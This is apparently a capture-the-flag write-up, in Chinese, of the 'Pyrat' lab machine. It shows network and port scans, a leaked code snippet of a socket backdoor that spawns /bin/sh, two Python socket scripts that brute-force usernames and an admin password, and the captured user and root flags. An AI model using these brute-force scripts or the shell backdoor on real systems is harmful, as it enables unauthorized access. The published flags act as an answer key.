## 网段扫描
```
root@LingMj:/home/lingmj# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:13       (Unknown: locally administered)
192.168.56.100  08:00:27:cd:6d:19       (Unknown)
192.168.56.131  08:00:27:c6:c0:9f       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.849 seconds (138.45 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:/home/lingmj# nmap -p- -sC -sV 192.168.56.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 22:00 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.131
Host is up (0.0081s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, LANDesk-RC, Socks4, X11Probe: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|     name 'HELP' is not defined
|   Kerberos: 
|     'utf-8' codec can't decode byte 0x81 in position 5: invalid start byte
|   LDAPBindReq: 
|     'utf-8' codec can't decode byte 0x80 in position 12: invalid start byte
|   LDAPSearchReq: 
|     'utf-8' codec can't decode byte 0x84 in position 1: invalid start byte
|   RPCCheck: 
|     'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SMBProgNeg: 
|     'utf-8' codec can't decode byte 0xa4 in position 3: invalid start byte
|   SSLSessionReq: 
|     'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   Socks5: 
|     'utf-8' codec can't decode byte 0x80 in position 5: invalid start byte
|   TLSSessionReq: 
|     'utf-8' codec can't decode byte 0xa7 in position 13: invalid start byte
|   TerminalServerCookie: 
|_    'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=2/3%Time=67A182E1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20def
SF:ined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x
SF:20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<str
SF:ing>,\x20line\x201\)\n")%r(Socks5,47,"'utf-8'\x20codec\x20can't\x20deco
SF:de\x20byte\x200x80\x20in\x20position\x205:\x20invalid\x20start\x20byte\
SF:n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\
SF:x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20is\x20not\x20define
SF:d\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20not\x20defined\n")%r
SF:(RPCCheck,47,"'utf-8'\x20codec\x20can't\x20decode\x20byte\x200x80\x20in
SF:\x20position\x200:\x20invalid\x20start\x20byte\n")%r(DNSVersionBindReqT
SF:CP,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n
SF:")%r(DNSStatusRequestTCP,2D,"source\x20code\x20string\x20cannot\x20cont
SF:ain\x20null\x20bytes\n")%r(Help,1B,"name\x20'HELP'\x20is\x20not\x20defi
SF:ned\n")%r(SSLSessionReq,4F,"'utf-8'\x20codec\x20can't\x20decode\x20byte
SF:\x200xd7\x20in\x20position\x2013:\x20invalid\x20continuation\x20byte\n"
SF:)%r(TerminalServerCookie,4E,"'utf-8'\x20codec\x20can't\x20decode\x20byt
SF:e\x200xe0\x20in\x20position\x205:\x20invalid\x20continuation\x20byte\n"
SF:)%r(TLSSessionReq,48,"'utf-8'\x20codec\x20can't\x20decode\x20byte\x200x
SF:a7\x20in\x20position\x2013:\x20invalid\x20start\x20byte\n")%r(Kerberos,
SF:47,"'utf-8'\x20codec\x20can't\x20decode\x20byte\x200x81\x20in\x20positi
SF:on\x205:\x20invalid\x20start\x20byte\n")%r(SMBProgNeg,47,"'utf-8'\x20co
SF:dec\x20can't\x20decode\x20byte\x200xa4\x20in\x20position\x203:\x20inval
SF:id\x20start\x20byte\n")%r(LPDString,22,"invalid\x20syntax\x20\(<string>
SF:,\x20line\x201\)\n")%r(LDAPSearchReq,47,"'utf-8'\x20codec\x20can't\x20d
SF:ecode\x20byte\x200x84\x20in\x20position\x201:\x20invalid\x20start\x20by
SF:te\n")%r(LDAPBindReq,48,"'utf-8'\x20codec\x20can't\x20decode\x20byte\x2
SF:00x80\x20in\x20position\x2012:\x20invalid\x20start\x20byte\n")%r(SIPOpt
SF:ions,22,"invalid\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-
SF:RC,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n
SF:");
MAC Address: 08:00:27:C6:C0:9F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 241.73 seconds
```

## 获取webshell
  
  
  


>无法进行目录扫描
>
  

>可以用curl进行操作
>

  
  

>用nc尝试一下
>

  
  
  
  
  


## 提权

```
www-data@Pyrat:/var$ cd backups/
www-data@Pyrat:/var/backups$ ls -al
total 52
drwxr-xr-x  2 root root  4096 Feb  4 03:00 .
drwxr-xr-x 12 root root  4096 Dec 22  2023 ..
-rw-r--r--  1 root root 35711 Dec 22  2023 apt.extended_states.0
-rw-r--r--  1 root root  4032 Jun 15  2023 apt.extended_states.1.gz
-rw-r--r--  1 root root  3951 Jun  2  2023 apt.extended_states.2.gz
www-data@Pyrat:/var/backups$ cd /opt/
www-data@Pyrat:/opt$ ls -al
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
www-data@Pyrat:/opt$ cd dev/
www-data@Pyrat:/opt/dev$ ls -al
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@Pyrat:/opt/dev$ cat .git
cat: .git: Is a directory
www-data@Pyrat:/opt/dev$ if
> ^C
www-data@Pyrat:/opt/dev$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>很慢他是python设计的终端
>
  

>感觉能直接拿到root,看看咋利用，不过之前那个.git没研究完
>
  

>豁，差点错过
>


```
think@Pyrat:~$ ls -al
total 40
drwxr-x--- 5 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun  2  2023 ..
lrwxrwxrwx 1 root  root     9 Jun 15  2023 .bash_history -> /dev/null
-rwxr-x--- 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-x--- 1 think think 3771 Jun  2  2023 .bashrc
drwxr-x--- 2 think think 4096 Jun  2  2023 .cache
-rwxr-x--- 1 think think   25 Jun 21  2023 .gitconfig
drwx------ 3 think think 4096 Jun 21  2023 .gnupg
-rwxr-x--- 1 think think  807 Jun  2  2023 .profile
drwx------ 3 think think 4096 Jun 21  2023 snap
-rw-r--r-- 1 root  think   33 Jun 15  2023 user.txt
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
think@Pyrat:~$ cat user.txt 
996bdb1f619a68361417cabca5454705
think@Pyrat:~$ sudo -l
[sudo] password for think: 
Sorry, user think may not run sudo on pyrat.
think@Pyrat:~$ 

```

  
  
  

  

>在git找一下信息
>
  

```
def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e
```

```
import socket  

# 目标IP和端口  
HOST = '192.168.56.131'  
PORT = 8000  

# 读取用户名文件  
with open('/usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt', 'r') as file:  
    usernames = file.readlines()  

# 创建socket连接  
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  
    s.connect((HOST, PORT))  
    
    for username in usernames:  
        username = username.strip()  # 去除换行符和空格  
        
        if username:  # 确保用户名不为空  
            # 发送用户名  
            s.sendall(username.encode())  
            s.sendall(b'\n')  # 发送换行符，以模拟输入  

            # 接收返回结果  
            response = s.recv(1024).decode()  
            print(f'Input: {username} -> Response: {response.strip()}')
```


  
  


```
import socket  

# 目标IP和端口  
HOST = '192.168.56.131'  
PORT = 8000  

# 用户名和密码字典文件  
username = "admin"  
password_file = '/path/to/your/password/file.txt'  # 替换为你的密码文件路径  

# 读取密码文件  
try:  
    with open(password_file, 'r', encoding='utf-8', errors='replace') as file:  
        passwords = file.readlines()  
except FileNotFoundError:  
    print(f"错误: 无法找到文件 {password_file}")  
    exit(1)  

# 创建函数来尝试连接并爆破密码  
def try_passwords(username, passwords):  
    for password in passwords:  
        password = password.strip()  # 去除换行符和空格  
        
        if not password:  # 跳过空密码  
            continue  
        
        # 创建socket连接  
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  
            s.connect((HOST, PORT))  
            print(f"连接到 {HOST}:{PORT}")  

            # 发送用户名  
            s.sendall(f"{username}\n".encode())  
            response = s.recv(1024).decode()  
            print(response.strip())  # 打印服务器对用户名的响应  

            # 发送密码  
            s.sendall(f"{password}\n".encode())  
            response = s.recv(1024).decode()  
            print(f'Input: {password} -> Response: {response.strip()}')  

            # 检查服务器的响应  
            if 'Password:' in response:  
                print("密码错误，重连...")  
                continue  # 密码错误，继续尝试下一个密码  
            elif '成功' in response:  # 假设成功的响应包含"成功"  
                print(f'密码正确: {password}')  
                return  # 找到密码后退出函数  

    print("所有密码尝试完毕。")  

# 调用函数进行密码尝试  
try_passwords(username, passwords)
```

  


>爆破密码方式,等了30分钟终于结束。
>

  

>结束
>


>userflag:996bdb1f619a68361417cabca5454705
>
>rootflag:ba5ed03e9e74bb98054438480165e221
>